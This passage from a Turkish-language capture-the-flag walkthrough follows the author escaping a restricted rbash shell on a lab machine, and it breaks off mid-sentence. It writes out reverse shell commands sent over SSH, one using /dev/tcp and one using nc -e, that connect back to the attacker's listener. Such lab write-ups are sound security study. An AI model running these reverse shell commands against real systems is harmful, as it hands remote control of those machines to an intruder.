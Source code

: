 Diyorum ve şu ekran beni karşılıyor.

![]({{ AUCyberClub.github.io }}/assets/img/dontstopme/50.png)

Yayy! :D

Diyecekken sevinmekten vazgeçiyorum.

![]({{ AUCyberClub.github.io }}/assets/img/dontstopme/51.png)

Hiç bir komutun çalışmadığı bir shelle düştüğümü farkediyorum çünkü.

Arasanız bulamazsınız böyle shell'i :(

Bu noktadan sonra yapılabilecek şeyler bir şekilde yetkimi arttırmaya çalışmak ya da komutları bir şekilde çalıştırmak. NetCat ile shell'i ; dinlediğim bir porttan kendime atmakta işe yarayabilir.Ayrıca içine düştüğüm shell :( **rbash** olarak geçiyor. İnternette bu shell ile ilgili açık bulmayıda deneyebilirim.

Bu yazdıklarımı sırası ile yapmaya ve araştırmaya başlıyorum.
    
Alttaki [Mükemmel-Site](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells) (ilaç gibi geliyor ve yetişiyor) sayesinde bir çok komut buluyorum ve hepsini deniyorum.

![]({{ AUCyberClub.github.io }}/assets/img/dontstopme/52.png)

Burada yapmaya çalıştığım şeyler shelli bir yerlere taşımak ya da başka programlar üzerinden shell komutları çalıştırmak ama nafile.En son SSH üzerinden **ShellShock** deniyorum sitede yazıldığı üzere.İyiden iyiye sinir oluyorum baya

Ama sonunda kırılan rbash'ın çıkardığı **çaaat!** sesini kulaklarımda hissediyorum :D

![]({{ AUCyberClub.github.io }}/assets/img/dontstopme/53.png)

ssh üzerinden komutları çalıştırmayı başarıyorum.

```
ssh burtieo@10.0.2.9 pwd
```

Şeklinde bir kullanıma sahip.

Daha sonra shell'i değiştirmek için reverse shell atmayı deniyorum

```
ssh burtieo@10.0.2.9 "bash -i >& /dev/tcp/10.0.2.8/8080 0>&1"
```

Diyorum ancak çıktı yönlendirmesine izin vermiyor.

![]({{ AUCyberClub.github.io }}/assets/img/dontstopme/54.png)

Bende NetCat ile reverse shell denemeye karar veriyorum.

```
ssh burtieo@10.0.2.9 "nc -e /bin/sh 10.0.2.8 1337"
```

Diyorum ve dinlemek içinde başka bir terminalde
